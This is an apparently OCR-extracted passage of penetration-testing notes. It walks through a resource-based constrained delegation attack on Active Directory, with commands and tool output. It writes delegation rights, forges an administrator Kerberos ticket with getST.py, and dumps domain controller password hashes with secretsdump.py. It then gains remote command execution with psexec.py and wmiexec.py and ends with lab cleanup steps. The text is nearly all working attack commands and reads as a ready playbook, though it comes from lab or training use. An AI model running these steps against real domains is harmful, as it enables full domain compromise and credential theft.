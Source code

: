 ```bash
[*] No credentials supplied, supply password                                                                                                                                 
Password:                                                                                                                                                                    
[-] CCache file is not found. Skipping...                                                                                                                                    
[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty                                                                                                              
[*] Delegation rights modified successfully!                                                                                                                                 
[*] rbcd$ can now impersonate users on DC02$ via S4U2Proxy                                                                                                                   
[*] Accounts allowed to act on behalf of other identity:  
[*]     attackersystem$   (S-1-5-21-1416445593-394318334-2645530166-12602)  


# Now provide empty password the same way again when we get the ticket:
└─$ getST.py -spn 'cifs/dc02.dom.com' -impersonate 'administrator' 'dom.com/attackersystem$:Summer2018!'
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*] Requesting S4U2Proxy
[*] Saving ticket in administrator@cifs_dc02.dev.admin.offshore.com@DEV.ADMIN.OFFSHORE.COM.ccache

export KRB5CCNAME='administrator@cifs_dc02.XXX.ccache'

klist
Ticket cache: FILE:administrator@cifs_dc02.XXX.ccache
Default principal: administrator@dom.com

Valid starting       Expires              Service principal
06/17/2025 17:24:49  06/18/2025 03:24:49  cifs/dc02.dom.com@DOM.COM
        renew until 06/18/2025 17:24:49

# We can dump hashes with that ticket
secretsdump.py dom.com/administrator@dc02.dom.com -k -no-pass
# A SHORTER OPTION IS
secretsdump.py @dc.domain.com -k -no-pass

                                  
# Now we can authenticate as Administrator using that Kerberos ticket with no password. NOTE: dc.domain.com is needed after @
psexec.py domain.com/Administrator@dc.domain.com -k -no-pass
impacket-psexec -k -no-pass dc.domain.com -dc-ip $DC_IP 
wmiexec.py -k -no-pass @targetdc.domain.local
# After the exploit a little clean up of the lab, flush the rbcd entry and delete the computer account with a domain admin
rbcd.py -delegate-from 'rbcd$' -delegate-to 'targetComputer$' -dc-ip 'DomainController' -action 'flush' 'domain'/'PowerfulUser':'password'
addcomputer.py -computer-name 'rbcd$' -computer-pass 'rbcdpass' -dc-host kingslanding.sevenkingdoms.local 'DOMAIN_ACQUIRED'/'user':'password' -delete
```
{% endcode %}
